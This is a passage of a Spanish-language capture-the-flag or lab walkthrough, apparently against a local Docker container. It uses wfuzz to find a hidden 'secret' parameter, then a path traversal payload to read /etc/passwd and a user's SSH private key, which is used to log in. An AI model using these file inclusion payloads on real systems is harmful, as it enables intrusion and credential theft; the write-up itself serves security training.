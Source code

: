 ## 5. Fuzzing para Inclusión de Archivos

```bash
wfuzz -c -w /usr/share/wordlists/dirb/common.txt -u http://172.17.0.2/index.php?FUZZ --hw 169
```

| Parte del comando                        | Explicación                                                                                  |
|------------------------------------------|----------------------------------------------------------------------------------------------|
| `wfuzz`                                  | Ejecuta la herramienta de fuzzing.                                                           |
| `-c`                                     | Activa el **modo color** en la salida para facilitar la lectura (rojo, verde, etc).         |
| `-w /usr/share/wordlists/dirb/common.txt`| Indica el **diccionario** que se usará para el fuzzing. En este caso, uno común de directorios. |
| `-u http://172.17.0.2/index.php?FUZZ`    | URL objetivo. El texto `FUZZ` es un **marcador** que será reemplazado por cada palabra del diccionario. |
| `--hw 169`                               | **Filtro de respuestas**: oculta todas aquellas que devuelvan **exactamente 169 palabras** (probablemente respuestas repetitivas o errores genéricos). |

**Parámetros detectados**:
- `secret` produce una respuesta diferente, posible parámetro vulnerable.

📄 **Inclusión de archivo `/etc/passwd`**:
```
http://172.17.0.2/index.php?secret=../../../../../../etc/passwd
```

✅ Contenido del archivo confirmado (usuarios del sistema encontrados):
```
root:x:0:0:root:/root:/bin/bash
vaxei:x:1001:1001:,,,:/home/vaxei:/bin/bash
luisillo:x:1002:1002::/home/luisillo:/bin/sh
...
```

---

## 6. Acceso a Clave Privada SSH

```bash
http://172.17.0.2/index.php?secret=../../../../../../home/vaxei/.ssh/id_rsa
```

✅ **Clave privada encontrada**. Guardamos el archivo como `id_rsa` y accedemos al servidor:

```bash
chmod 600 id_rsa
ssh -i id_rsa vaxei@172.17.0.2
```

| Parte del comando       | Explicación                                                                 |
|--------------------------|-----------------------------------------------------------------------------|
| `chmod`                  | Comando para cambiar permisos de archivos.                                 |
| `600`                    | Asigna permisos de **lectura y escritura solo al propietario**.             |
| `id_rsa`                 | Archivo de clave privada SSH.                                               |
